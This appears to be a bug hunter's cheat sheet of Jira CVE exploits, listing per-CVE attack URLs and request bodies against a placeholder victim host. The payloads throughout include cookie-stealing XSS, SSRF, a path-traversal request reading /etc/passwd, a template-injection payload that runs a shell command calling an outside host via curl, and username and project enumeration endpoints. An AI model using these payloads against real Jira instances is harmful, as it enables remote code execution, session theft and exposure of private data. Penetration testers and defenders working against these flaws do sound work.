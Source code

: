 Daily Notes : Day 66
Jira list 

# Jira Scanner

# CVE-2019-8449
https://jira.atlassian.com/browse/JRASERVER-69796
https://victomhost/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true

# CVE-2019-8451:ssrf-response-body
https://jira.atlassian.com/browse/JRASERVER-69793?jql=labels%20%3D%20
https://victomhost/plugins/servlet/gadgets/makeRequest?url=https://victomhost:1337@example.com

# RCE Jira=CVE-2019–11581
https://hackerone.com/reports/706841
/secure/ContactAdministrators!default.jspa

# CVE-2018-20824
https://victomhost/plugins/servlet/Wallboard/?dashboardId=10000&dashboardId=10000&cyclePeriod=alert(document.domain)

# CVE-2020-14179
REF=https://jira.atlassian.com/browse/JRASERVER-71536
https://victomhost/secure/QueryComponent!Default.jspa

# CVE-2020-14181
Ref=https://jira.atlassian.com/browse/JRASERVER-71560?jql=text%20~%20%22cve-2020-14181%22
https://victomhost/secure/ViewUserHover.jspa
https://victomhost/ViewUserHover.jspa?username=Admin
https://hackerone.com/reports/380354

# CVE-2018-5230
https://jira.atlassian.com/browse/JRASERVER-67289
https://host/issues/?filter=-8

# CVE-2019-3403
https://jira.atlassian.com/browse/JRASERVER-69242
/rest/api/2/user/picker?query=admin

# CVE-2019-8442
https://jira.atlassian.com/browse/JRASERVER-69241
/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
/rest/api/2/user/picker?query=admin
/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml

# CVE-2017-9506
https://blog.csdn.net/caiqiiqi/article/details/89017806
/plugins/servlet/oauth/users/icon-uri?consumerUri=https://google.nl

# CVE-2019-3402：[Jira]XSS in the labels gadget
/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=x2rnu%3Cscript%3Ealert(1)%3C%2fscript%3Et1nmk&Search=Search
ConfigurePortalPages.jspa

# CVE-2018-20824：[Jira]XSS in WallboardServlet through the cyclePeriod parameter
/plugins/servlet/Wallboard/?dashboardId=10100&dashboardId=10101&cyclePeriod=(function(){alert(document.cookie);return%2030000;})()&transitionFx=none&random=true

# CVE-2019-3396: [Path Traversal & RCE]
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: JIRA
...
{"contentId":"1","macro":{"name":"widget","params":{"url":"https://www.viddler(.)com/v/23464dc5","width":"1000","height":"1000","_template":"file:///etc/passwd"},"body":""}}

# CVE-2019-11581: [SSTI]
http://<JIRA>/secure/ContactAdministrators!default.jspa
# Try SSTI payload in subject and/or body:
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('curl http://xyz.burp(.)net').waitFor()

# CVE-2020-14178: [Project Key Enum]
http://<JIRA>/browse.<PROJECTKEY>

# CVE-2020-36289: [Username Enumeration]
https://<JIRA>/secure/QueryComponentRendererValue!Default.jspa?assignee=user:admin

# jira-unauthenticated-dashboards:
https://<JIRA>/rest/api/2/dashboard?maxResults=100

# jira-unauth-popular-filters:
https://<JIRA>/secure/ManageFilters.jspa?filterView=popular